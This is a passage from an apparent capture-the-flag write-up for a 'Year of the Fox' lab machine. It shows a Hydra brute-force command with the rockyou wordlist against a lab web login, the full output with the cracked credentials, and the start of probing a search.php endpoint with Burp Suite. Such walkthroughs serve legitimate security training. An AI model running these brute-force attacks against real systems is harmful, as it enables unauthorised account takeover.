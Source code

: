 ~~~
kali@kali:/data/Year_of_the_Fox$ hydra -l hydra -l rascal -P /usr/share/wordlists/rockyou.txt 10.10.189.152 http-get
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-30 12:13:26
[WARNING] You must supply the web page as an additional option or via -m, default path set to /
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-get://10.10.189.152:80/
[80][http-get] host: 10.10.189.152   login: rascal   password: pussy1
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-08-30 12:14:17
~~~

Found valid credentials: `rascal:pussy1`.

*Notice: Passwords are randomly generated at boot time. You'll need to brute force the password again if the machine is restarted*

## Rascal's Search System

Now that we are logged in, we can enter the website. It's a search engine that searches text files. Searching for an empty string returns a list of 3 files:

![rascal-search.png](files/rascal-search.png)

Intercepting the request with `BurpSuite` reveals that the request is sent to a `search.php` file, and the user input is passed in a JSON like string.
